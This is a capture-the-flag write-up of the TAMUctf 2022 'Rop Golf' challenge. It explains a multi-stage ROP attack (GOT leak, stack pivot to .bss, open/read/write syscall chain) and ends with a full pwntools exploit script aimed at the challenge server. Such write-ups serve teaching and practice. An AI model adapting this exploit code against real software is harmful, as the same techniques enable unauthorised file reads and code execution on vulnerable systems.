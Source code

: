 ### Rop Golf

was an pwn challenge from TAMUctf 2022.

I got first blood on it (while playing for friends of Flag Poisonning)

A type of restricted ROP, where you have only 4 ROP entries to do you rop,

so we will have to do a succession of payloads..

Here is the vulnerable function:

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Rop.Golf/pics/reverse.png)

you can see the buffer overflow, we will have 0x20 bytes, so 4 ROP entries avaible for our ROP

so we will use successive payloads:

*  1st payload:   we dump `puts()` **GOT** entry, with `puts()`, then go back to vuln function for second round

* 2nd payload:   we read the third payload on the `.bss `with `gets()` function, then stack pivot to it

* 3rd payload:   we will use two payloads one is a `open directory / getdents (list dirs) /  write output to stdout `  payload
                          this first type of payload list directories, and discover the flag 'quasi random' name                       
													the second type is a `open file / read it / write it to stdout` to dump our flag..

and that's all...

as you can see...

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Rop.Golf/pics/gotshell.gif)

and here is my exploit commented...

hope you will undestand it :)

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")

exe = ELF('./rop_golf_patched')
libc = ELF('./libc.so.6')

host, port = "206.189.113.236", "30674"

p = remote("tamuctf.com", 443, ssl=True, sni="rop-golf")

pop_rdi = 0x00000000004011fb # pop rdi ; ret
pop_rbp = 0x0000000000401129 # pop rbp ; ret
leave_ret = 0x0000000000401161 # leave ; ret

# 1st payload, first we leak puts got entry to calculate libc base, then return to vuln
payload = b'A'*0x28+p64(pop_rdi)+p64(exe.got['puts'])+p64(exe.sym['puts'])+p64(0x401142)
p.sendafter('hi!\n', payload)

# calculate libc base
leak = u64(p.recvuntil(b'\n',drop=True).ljust(8,b'\x00'))
print('leak = '+hex(leak))
libc.address = leak - libc.sym['puts']
print('libc base = '+hex(libc.address))

# 2nd payload, read the first payload on .bss and pivot to it
bss = 0x404c00
onegadgets = one_gadget('libc.so.6', libc.address)
payload = b'A'*0x20+p64(bss+64-8)+p64(pop_rdi)+p64(bss)+p64(libc.sym['gets'])+p64(leave_ret)
p.send(payload)

# various gadgets
pop_rdx = libc.address + 0x0000000000044198 # pop rdx ; ret
pop_rsi = libc.address + 0x000000000002440e # pop rsi ; ret
pop_rax = libc.address + 0x000000000003a638 # pop rax ; ret
xchg_edi_eax = libc.address + 0x0000000000116dbc # xchg eax, edi ; ret
syscall_ret = libc.address + 0x00000000000b58a5 # syscall; ret;
fname = b'/pwn/066A2462DEB399BA9183A91FC116914C.txt'
fname = fname.ljust(64,b'\x00')

# 3rd oayload with fname gonna dump
# open fname
payload4 = fname + p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall_ret)
# read file
payload4 += p64(xchg_edi_eax)+p64(pop_rsi)+p64(bss)+p64(pop_rdx)+p64(0x80)+p64(pop_rax)+p64(0)+p64(syscall_ret)
# write file content to stdout
payload4 += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(bss)+p64(pop_rdx)+p64(0x80)+p64(pop_rax)+p64(1)+p64(syscall_ret)
#exit
payload4 += p64(pop_rax)+p64(60)+p64(syscall_ret)
p.sendline(payload4)

# alternative payload that does getdents, and return directory content 
#payload4 = fname + p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0)+p64(pop_rax)+p64(2)+p64(syscall_ret)
#payload4 += p64(xchg_edi_eax)+p64(pop_rsi)+p64(bss-0x100)+p64(pop_rdx)+p64(0x200)+p64(pop_rax)+p64(78)+p64(syscall_ret)
#payload4 += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(bss-0x100)+p64(pop_rdx)+p64(0x200)+p64(pop_rax)+p64(1)+p64(syscall_ret)
#payload4 += p64(pop_rax)+p64(60)+p64(syscall_ret)
#p.sendline(payload4)

#buff = p.recv()
#print(dirents(buff))

p.interactive()
```

*nobodyisnobody still pwning things...*

